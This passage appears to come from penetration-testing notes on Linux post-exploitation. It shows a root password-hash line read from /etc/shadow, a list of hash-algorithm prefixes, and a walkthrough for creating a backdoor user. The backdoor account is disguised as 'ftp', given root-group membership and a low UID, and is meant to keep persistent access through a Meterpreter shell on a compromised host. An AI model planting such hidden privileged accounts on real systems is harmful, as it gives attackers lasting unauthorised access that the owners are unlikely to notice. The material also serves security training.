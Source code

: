 or we can add a new user:

```bash
useradd -m new_usr -s /bin/bash #and add psw
```

Analyzing root hash of /etc/shadow, file we can see that&#x20;

```
root:$y$j9T$hl8nD2cY/WEF55crjicKw1$7/bAEYLkcpy9sZJ1rZMYX9bFQLJj88qKomFAPB2QDEC:19566:0:99999:7:::
```

the initial characters of the password field value in _/etc/shadow_ identify the encryption algorithm:

* _$1$_ is [Message Digest 5 (MD5)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#md5)
* _$2a$_ is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish)
* _$5$_ is [256-bit Secure Hash Algorithm (SHA-256)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#sha-2)
* _$6$_ is [512-bit Secure Hash Algorithm (SHA-512)](https://www.baeldung.com/cs/md5-vs-sha-algorithms#1-security-1)
* _$y$_ (or _$7$_) is [_yescrypt_](https://www.openwall.com/yescrypt/)
* none of the above means DES

Critically, as of this writing, _**yescrypt**_**&#x20;with its contest entry** [_**yescrypt v2**_](https://www.password-hashing.net/submissions/specs/yescrypt-v2.pdf) **and** [**current specification**](https://github.com/openwall/yescrypt/blob/main/README)**, is widely-adopted and the default password hashing scheme for many recent versions of major distributions** like [Debian](https://www.debian.org/) 11/12, [Fedora](https://getfedora.org/) 35+, [Kali Linux](https://www.kali.org/get-kali/) 2021.1+, and [Ubuntu](https://ubuntu.com/) 22.04+. Further, it’s supported on Fedora 29+ and [RHEL](https://www.redhat.com/en) 9+. Still, many standard tools still don’t support _yescrypt_.

**Unlike Windows, on Linux we cannot use the hash to authenticate ourselves.**

### Establishing Persistence On Linux

#### Create backdoor user

NB: This technic only work if the target server is running with SSH or a remote access protocol, that can provide us with access whenever we need it (with usr and psw).

After exploiting the target and starting Meterpreter Shell, we need to check if the target has root permission using getuid command, or we need to elevate it.

```bash
shell
/bin/bash -i
cat /etc/passwd
#see it and make sure that account/service name that we want to use doesn't exist
useradd -m ftp -s /bin/bash #if we want to /var/www/html to make service less than clandestine
passwd ftp #create psw
usermod -aG root ftp #provides administrative or root privileges at ftp account
groups ftp #checks group of ftp account
usermod -u 15 ftp #optional, it's only to take ftp account less clandestine, UID (user identifier) is the unique number assigned to the user upon account creation
```
